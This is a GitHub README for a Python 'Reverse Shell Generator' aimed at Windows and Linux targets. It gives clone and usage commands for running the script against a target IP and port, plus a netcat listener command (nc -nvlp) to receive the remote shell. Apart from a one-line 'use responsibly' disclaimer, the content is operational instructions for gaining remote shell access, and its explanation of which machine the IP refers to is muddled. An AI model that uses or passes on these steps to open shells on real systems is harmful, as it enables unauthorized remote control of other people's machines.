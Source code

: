 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike


##Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER

#How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace TARGET_IP with the IP address of the target machine.
- Replace PORT_NUMBER with the port number to connect to on the target machine.
- The script will create a reverse shell connection to the specified IP and port.

#IMPORTANT

You want to start listen to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port
